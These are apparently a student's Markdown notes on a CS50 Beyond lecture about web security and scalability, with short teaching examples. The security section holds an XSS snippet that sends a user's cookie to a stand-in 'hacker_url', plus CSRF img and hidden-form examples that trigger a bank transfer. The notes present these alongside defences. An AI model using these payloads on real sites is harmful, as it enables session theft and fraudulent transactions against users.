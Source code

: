 ```yaml
---
path: "/cs50/beyond/6"
date: '2019-06-09'
title: "CS50 Beyond lecture 6 - Security & Scalability"
description: CS50 Beyond lecture 6 정리
image: ''
tags: ['CS50', 'CS50 Beyond', 'Security', 'Scalability']
---
```

> Harvard's CS50 Beyond lecture 6 정리

### Security
making sure that you, your application, and your users are protected by potential security threats and vulnerabilities

#### Git Vulnerabilities
- github repos: anyone can look at the code to take advantage of potential vulnerabilites (bcuz public as default)
    - ex. git commit history: credentials can be exposed
- solutions: 
    - change the credentials
    - git purge (overwrite history)

#### HTML Vulnerabilities
- phishing links: url leads to somewhere different from specified content

#### HTTPS and Cryptography
- securely deliver data from one location to another location
- use __Cryptography__
    - __Secret-key Cryptography__: use a singly key to encrypt and decrypt messages (key & ciphertext is transferred)
        - problem: key is also sent through the internet
    - __Public-key Cryptography__: use public key to encrypt and private key to decrypt message 
        - receiver generates private and public key, shares only the public key to sender, and sender transfers ciphertext which receiver can decrypt using private key

#### Environment Variables
- don't store credentials in repos
- store credentials in environment variables

#### Database Vulnerabilities
database security concerns
- passwords: passwords can be exposed
    - solution: store hashed version of passwords
- data leaks:
    - ex. forgot your password message: indication of which id exists or not
    - ex. response time: can retrieve information based on response time

#### SQL Injection
- database queries that can inject problems to disrupt the SQL database
- solution: use libraries, escape characters

#### JavaScript Vulnerabilities
javascript opens a whole host of potential security vulnerabilites
- __Cross-site Scripting__: injecting javascript to expose private information
```html
<!-- injecting javascript into the request path (url) to reveal cookie of user -->
/<script>document.write('img src="hacker_url?cookie=" + document.cookie + ">"</script>
```
- __Cross-site Request Forgery__: injecting methods to take advantage of requests to expose private information
```html
<!-- automatically fetches src (using request link) leading to transferring money to someone using credentials -->
<img src="http://yourbank.com/transfer?to=brian&amt=2800" />
<!-- another exampler of cross-site request forgery using a form -->
<form action="http://yourbank.com/transfer" method="post">
    <input type="hidden" name="to" value="brian">
    <input type="hidden" name="amt" value="2800">
    <input type="submit" value="click!">
</form>
```
- solution: use a CSRF(Cross-site Request Forgery) token for transfers
    - each form has token and this is validated when sent to server 

### Scalability
what we need to consider for having multiple people using the same application at the same time
- vertical scaling: increase the size of the server
- horizontal scaling: increase the number of servers
    - use load balancing to handle which server the client should be directed to

#### Benchmarking
load testing the application to figure out how many users the server can handle

#### Load Balancing
- __load balancer__: device that handles which server the user should be directed to
- __Load Balancing Methods__: deciding which server to send the user
    - __fewest connections__: send user to the server w/ the fewest users; can spread out users but may be potentially computationally expensive 
    - __random choice__: randomly assign server; quick but may flock to one server
    - __round robin__: go around each server
- __Session-aware Load Balancing__: preserving sessions while using load balancing to serve pages (to solve problems where user is directed to different servers, losing session information)
    - sticky sessions: load balancer remembers the particular server the user was first directed to
    - sessions in database: store sessions in the database
    - client-side session: store the session in the client-side

#### Auto-scaling
automatically grows or shinks amount of servers based upon the load of the application
- cf) use heartbeat to detect which servers are alive or down

#### Scaling Databases
how to scale databases
- __Database Partitioning__: separate tables in some way
- __Database Replication__: having multiple databases
    - __singly-primary replication__: can only write to the primary database while reading can be distributed to any of the databases (when written to primary db, updates other database based on the primary db)
    - __multi-primary replication__: each db is writable and readable, need to update all other databases when one database is changed
- __Caching__: store data in cache to prevent constantly sending requests to database
    - __client-side caching__: adding cache-control in HTTP header in response (from server) to indicate redundant data to be retrieved from cache next time
        - __entity tag__: entity tag to indicate the version of the document to prevent redundant requests for page
```http
Cache-control: max-age=86400
Etag: "74682038474827847837E83393739"
```
    - __server-side caching__: servers accessing cache instead of database for recent information